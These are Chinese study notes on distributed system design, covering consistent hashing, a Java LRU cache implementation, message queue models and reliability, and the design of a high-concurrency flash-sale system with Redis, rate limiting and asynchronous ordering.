### 哈希分布

哈希分布就是将数据计算哈希值之后，按照哈希值分配到不同的节点上。例如有 N 个节点，数据的主键为 key，则将该数据分配的节点序号为：hash(key)%N。

传统的哈希分布算法存在一个问题：当节点数量变化时，也就是 N 值变化，那么几乎所有的数据都需要重新分布，将导致大量的数据迁移。


### 顺序分布

将数据划分为多个连续的部分，按数据的 ID 或者时间分布到不同节点上。例如 User 表的 ID 范围为 1 ~ 7000，使用顺序分布可以将其划分成多个子表，对应的主键范围为 1 ~ 1000，1001 ~ 2000，...，6001 ~ 7000。

顺序分布相比于哈希分布的主要优点如下：

- 能保持数据原有的顺序；
- 并且能够准确控制每台服务器存储的数据量，从而使得存储空间的利用率最大。


## 一致性哈希

Distributed Hash Table（DHT） 是一种哈希分布方式，其目的是为了克服传统哈希分布在服务器节点数量变化时大量数据迁移的问题。

### 基本原理

将哈希空间 [0, 2n-1] 看成一个哈希环，每个服务器节点都配置到哈希环上。每个数据对象通过哈希取模得到哈希值之后，存放到哈希环中顺时针方向第一个大于等于该哈希值的节点上。


一致性哈希在增加或者删除节点时只会影响到哈希环中相邻的节点，例如下图中新增节点 X，只需要将它前一个节点 C 上的数据重新进行分布即可，对于节点 A、B、D 都没有影响。


### 虚拟节点

上面描述的一致性哈希存在数据分布不均匀的问题，节点存储的数据量有可能会存在很大的不同。

数据不均匀主要是因为节点在哈希环上分布的不均匀，这种情况在节点数量很少的情况下尤其明显。

解决方式是通过增加虚拟节点，然后将虚拟节点映射到真实节点上。虚拟节点的数量比真实节点来得多，那么虚拟节点在哈希环上分布的均匀性就会比原来的真实节点好，从而使得数据分布也更加均匀。


## LRU实现

以下是基于 双向链表 + HashMap 的 LRU 算法实现，对算法的解释如下：

- 访问某个节点时，将其从原来的位置删除，并重新插入到链表头部。这样就能保证链表尾部存储的就是最近最久未使用的节点，当节点数量大于缓存最大空间时就淘汰链表尾部的节点。
- 为了使删除操作时间复杂度为 O(1)，就不能采用遍历的方式找到某个节点。HashMap 存储着 Key 到节点的映射，通过 Key 就能以 O(1) 的时间得到节点，然后再以 O(1) 的时间将其从双向队列中删除。

~~~java
public class LRU<K, V> implements Iterable<K> {

    private Node head;
    private Node tail;
    private HashMap<K, Node> map;
    private int maxSize;

    private class Node {

        Node pre;
        Node next;
        K k;
        V v;

        public Node(K k, V v) {
            this.k = k;
            this.v = v;
        }
    }


    public LRU(int maxSize) {

        this.maxSize = maxSize;
        this.map = new HashMap<>(maxSize * 4 / 3);

        head = new Node(null, null);
        tail = new Node(null, null);

        head.next = tail;
        tail.pre = head;
    }


    public V get(K key) {

        if (!map.containsKey(key)) {
            return null;
        }

        Node node = map.get(key);
        unlink(node);
        appendHead(node);

        return node.v;
    }


    public void put(K key, V value) {

        if (map.containsKey(key)) {
            Node node = map.get(key);
            unlink(node);
        }

        Node node = new Node(key, value);
        map.put(key, node);
        appendHead(node);

        if (map.size() > maxSize) {
            Node toRemove = removeTail();
            map.remove(toRemove.k);
        }
    }


    private void unlink(Node node) {

        Node pre = node.pre;
        Node next = node.next;

        pre.next = next;
        next.pre = pre;

        node.pre = null;
        node.next = null;
    }


    private void appendHead(Node node) {
        Node next = head.next;
        node.next = next;
        next.pre = node;
        node.pre = head;
        head.next = node;
    }


    private Node removeTail() {

        Node node = tail.pre;

        Node pre = node.pre;
        tail.pre = pre;
        pre.next = tail;

        node.pre = null;
        node.next = null;

        return node;
    }


    @Override
    public Iterator<K> iterator() {

        return new Iterator<K>() {
            private Node cur = head.next;

            @Override
            public boolean hasNext() {
                return cur != tail;
            }

            @Override
            public K next() {
                Node node = cur;
                cur = cur.next;
                return node.k;
            }
        };
    }
}
~~~


# 消息队列

## 消息模型

### 点对点

消息生产者向消息队列中发送了一个消息之后，只能被一个消费者消费一次。


### 发布/订阅

消息生产者向频道发送一个消息之后，多个消费者可以从该频道订阅到这条消息并消费。


发布与订阅模式 和 观察者模式 有以下不同：

- 观察者模式中，观察者和主题都知道对方的存在；而在发布与订阅模式中，生产者与消费者不知道对方的存在，它们之间通过频道进行通信。
- 观察者模式是同步的，当事件触发时，主题会调用观察者的方法，然后等待方法返回；而发布与订阅模式是异步的，生产者向频道发送一个消息之后，就不需要关心消费者何时去订阅这个消息，可以立即返回。


## 使用场景

### 异步处理

发送者将消息发送给消息队列之后，不需要同步等待消息接收者处理完毕，而是立即返回进行其它操作。消息接收者从消息队列中订阅消息之后异步处理。

例如在注册流程中通常需要发送验证邮件来确保注册用户身份的合法性，可以使用消息队列使发送验证邮件的操作异步处理，用户在填写完注册信息之后就可以完成注册，而将发送验证邮件这一消息发送到消息队列中。

只有在业务流程允许异步处理的情况下才能这么做，例如上面的注册流程中，如果要求用户对验证邮件进行点击之后才能完成注册的话，就不能再使用消息队列。

### 流量削锋

在高并发的场景下，如果短时间有大量的请求到达会压垮服务器。

可以将请求发送到消息队列中，服务器按照其处理能力从消息队列中订阅消息进行处理。

### 应用解耦

如果模块之间不直接进行调用，模块之间耦合度就会很低，那么修改一个模块或者新增一个模块对其它模块的影响会很小，从而实现可扩展性。

通过使用消息队列，一个模块只需要向消息队列中发送消息，其它模块可以选择性地从消息队列中订阅消息从而完成调用。


## 可靠性

### 发送端的可靠性

发送端完成操作后一定能将消息成功发送到消息队列中。

实现方法：在本地数据库建一张消息表，将消息数据与业务数据保存在同一数据库实例里，这样就可以利用本地数据库的事务机制。事务提交成功后，将消息表中的消息转移到消息队列中，若转移消息成功则删除消息表中的数据，否则继续重传。

### 接收端的可靠性

接收端能够从消息队列成功消费一次消息。

两种实现方法：

- 保证接收端处理消息的业务逻辑具有幂等性：只要具有幂等性，那么消费多少次消息，最后处理的结果都是一样的。
- 保证消息具有唯一编号，并使用一张日志表来记录已经消费的消息编号。


# ————————————————


# 秒杀设计


## 秒杀问题

### 超卖

备货只有100个，但是最终超卖了200


### 高并发

秒杀具有时间短、并发量大的特点，短时间内会有大量请求涌进来，后端如何防止并发过高造成缓存击穿或者失效，击垮数据库都是需要考虑的问题。


### 接口防刷

现在的秒杀大多都会出来针对秒杀对应的软件，这类软件会模拟不断向后台服务器发起请求，一秒几百次都是很常见的，如何防止这类软件的重复无效请求，防止不断发起的请求也是需要我们针对性考虑的。


### 秒杀URL

对于普通用户来讲，看到的只是一个比较简单的秒杀页面，在未达到规定时间，秒杀按钮是灰色的，一旦到达规定时间，灰色按钮变成可点击状态。这部分是针对小白用户的，如果是稍微有点电脑功底的用户，会通过F12看浏览器的network看到秒杀的url，通过特定软件去请求也可以实现秒杀。或者提前知道秒杀url的人，一请求就直接实现秒杀了。这个问题我们需要考虑解决。


### 数据库设计

秒杀有把我们服务器击垮的风险，如果让它与我们的其他业务使用在同一个数据库中，耦合在一起，就很有可能牵连和影响其他的业务。如何防止这类问题发生，就算秒杀发生了宕机、服务器卡死问题，也应该让他尽量不影响线上正常进行的业务。


## 设计方案

1. 秒杀系统的数据库设计

   针对秒杀的数据库问题，应该单独设计一个秒杀数据库，防止因为秒杀活动的高并发访问拖垮整个网站。这里只需要两张表，一张是秒杀商品表，一张是秒杀库存表：

   订单表（item）：

   

   库存表（item_stock）：

   

   其实应该还有几张表，订单表：可以查到具体的下单时间、订单单价、订单数量、下单金额、参与活动等，还有用户表：根据用户user_id可以查询到用户昵称、用户手机号，收货地址等其他额外信息，这个具体就不给出实例了。

2. 秒杀URL的设计

   为了避免有程序访问经验的人通过下单页面url直接访问后台接口来秒杀货品，我们需要将秒杀的url实现动态化，即使是开发整个系统的人都无法在秒杀开始前知道秒杀的url。具体的做法就是通过md5加密一串随机字符作为秒杀的url，然后前端访问后台获取具体的url，后台校验通过之后才可以继续秒杀。

3. 秒杀页面静态化

   将商品的描述、参数、成交记录、图像、评价等全部写入到一个静态页面，用户请求不需要通过访问后端服务器，不需要经过数据库，直接在前台客户端生成，这样可以最大可能的减少服务器的压力。具体的方法可以使用freemarker模板技术，建立网页模板，填充数据，然后渲染网页。

4. 单体redis升级为集群redis

   秒杀是一个读多写少的场景，使用redis做缓存再合适不过。不过考虑到缓存击穿问题，我们应该构建redis集群，或采用哨兵模式，可以提升redis的性能和可用性。

5. 使用nginx

   nginx是一个高性能web服务器，它的并发能力可以达到几万，而tomcat只有几百。通过nginx映射客户端请求，再分发到后台tomcat服务器集群中可以大大提升并发能力。

6. 精简SQL

   典型的一个场景是在进行扣减库存的时候，传统的做法是先查询库存，再去update。这样的话需要两个sql，而实际上一个sql我们就可以完成的。可以用这样的做法：update miaosha_goods set stock=stock-1 where goos_id={#goods_id} and version=#{version} and sock>0; 。这样的话，就可以保证库存不会超卖并且一次更新库存,还有注意一点这里使用了版本号的乐观锁，相比较悲观锁，它的性能较好。

7. redis预减库存

   很多请求进来，都需要后台查询库存,这是一个频繁读的场景。可以使用redis来预减库存，在秒杀开始前可以在redis设值，比如 redis.set(goodsId,100)，这里预放的库存为100可以设值为常量)，每次下单成功之后，Integer stock = (Integer)redis.get(goosId); 然后判断sock的值，如果小于常量值就减去1。不过注意当取消的时候,需要增加库存，增加库存的时候也得注意不能大于之间设定的总库存数(查询库存和扣减库存需要原子操作，此时可以借助lua脚本)下次下单再获取库存的时候,直接从redis里面查就可以了。

8. 接口限流

   秒杀最终的本质是数据库的更新，但是有很多大量无效的请求，我们最终要做的就是如何把这些无效的请求过滤掉，防止渗透到数据库。限流的话，需要入手的方面很多：

   - 前端限流：首先第一步就是通过前端限流，用户在秒杀按钮点击以后发起请求，那么在接下来的5秒是无法点击（通过设置按钮为disable）。这一小举措开发起来成本很小，但是很有效。
   - 同一个用户x秒内重复请求直接拒绝：具体多少秒需要根据实际业务和秒杀的人数而定，一般限定为10秒。具体的做法就是通过redis的键过期策略，首先对每个请求都从String value = redis.get(userId);。如果获取到这个value为空或者为null，表示它是有效的请求，然后放行这个请求。如果不为空表示它是重复性请求，直接丢掉这个请求。如果有效,采用redis.setexpire(userId,value,10).value 可以是任意值，一般放业务属性比较好,这个是设置以userId为key，10秒的过期时间（10秒后,key对应的值自动为null）。
   - 令牌桶算法限流：接口限流的策略有很多，我们这里采用令牌桶算法。令牌桶算法的基本思路是每个请求尝试获取一个令牌，后端只处理持有令牌的请求，生产令牌的速度和效率我们都可以自己限定。

9. 异步下单

   为了提升下单的效率，并且防止下单服务的失败。需要将下单这一操作进行异步处理。最常采用的办法是使用队列，队列最显著的三个优点：异步、削峰、解耦。这里可以采用rabbitmq，在后台经过了限流、库存校验之后，流入到这一步骤的就是有效请求。然后发送到队列里，队列接受消息，异步下单。下完单，入库没有问题可以用短信通知用户秒杀成功。假如失败的话，可以采用补偿机制，重试。

10. 服务降级

    假如在秒杀过程中出现了某个服务器宕机，或者服务不可用，应该做好后备工作。之前的博客里有介绍通过Hystrix进行服务熔断和降级，可以开发一个备用服务，假如服务器真的宕机了，直接给用户一个友好的提示返回，而不是直接卡死，服务器错误等生硬的反馈。


